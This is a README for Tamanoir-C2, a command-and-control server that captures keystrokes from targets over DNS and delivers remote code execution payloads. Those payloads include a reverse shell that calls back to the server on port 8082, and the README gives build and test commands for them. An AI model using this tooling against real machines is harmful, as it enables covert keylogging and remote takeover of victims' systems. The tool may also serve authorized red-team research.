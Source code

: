 # Tamanoir-C2 server

[Back to Readme](../../README.md)

Tamanoir-C2 (Command and Control) server's  purpose is multiple: 
- act as a dns proxy
- extract typed keystrokes from target
- transmit selected RCE( Remote Code Execution) payloads to target



- ⚠ make sure port 53 is available `sudo systemctl stop systemd-resolved` can help


## Architecture
It is composed of 3 servers:
| type | default port | goal|
|----------|----------|----------|
| DNS  | 53 | handle dns requests from targets and rce payloads transmission |
| TCP  | 8082 | handle remote shell sessions |
| GRPC  | 50051 | handle communication with tui clients |



## 🔥 Available Rce payloads
Tamanoir comes with ready-to-use payloads :


| name | description | comments | 
|----------|----------|----------|
| hello |  prints a cute tamanoir to tamanoir stdout  | hello-world payload, demonstrate how a big payload can be transmitted by chunks to target|
| xeyes | open `xeyes` program on target gui | demonstrate how to execute simple shellcode. Only works if target uses x11 |
| reverse-shell | open a tcp-shell communicating with tamanoir-c2 | needs to specify IP var when building (see below) 

#### 📍If using release binaries, make sure to include your `tamanoir-rce-*.bin` in `~/.tamanoir/bins` directory on tamanoir-c2 host
⇨ You'll then be able to select them in tui for transmission to target.<br> 
⇨ You'll have to choose either aarch64 or x86_64 architecture depending on target architecture.


## 🔧 Builder
You also can build provided  payloads from source, and even build your own <br>
Building is mandatory for reverse-shell rce payload, which needs to know your tamanoir-c2 ip @build time

### 📍 payloads location: ./assets/payloads
 
 `tamanoir-c2 rce build`

- will build and strip provided payloads

| name long| name short | description |  default|
|----------|----------|----------|----------|
| --target_arch| -t | x86_64 or aarch64  |  x86_64 |
| --crate_path | -c | path to payload crate (see ./assets/payloads) for examples | - |
| --engine | -e |cross build engine,if needed (docker or podman)  | docker |
| --build-vars | -b | key=value, space-separated env vars required for your payload, if needed  | - | 

- payload output: `~/.tamanoir/bins`
- ⚠ needs [cross](https://github.com/cross-rs/cross) for cross-compilation if target arch != current arch
- ⚠ max payload size (once compiled and stripped) = 4096 bytes

#### example: build reverse-shell 
`tamanoir-c2  rce  build  -c ./assets/payloads/reverse-shell  -b "IP=<tamanoir-c2-ip>" -t x86_64`
will compile `reverse-shell` payload:
- for x86_64 target arch 
- use cross to build it if current arch isn't x86_64
- will establish shell session with \<tamanoir-c2-ip>:8082



## Tester
 `tamanoir-c2 rce test -b <path-to-your-payload-binary>`
- test your payload (locally)
- ⚠ path needs to be absolute

## ⚠ Limitations
- Cross compilation is only available  for `aarch64` ->  `x86_64` 
- Rce payloads are for now only available for GNU toolchain





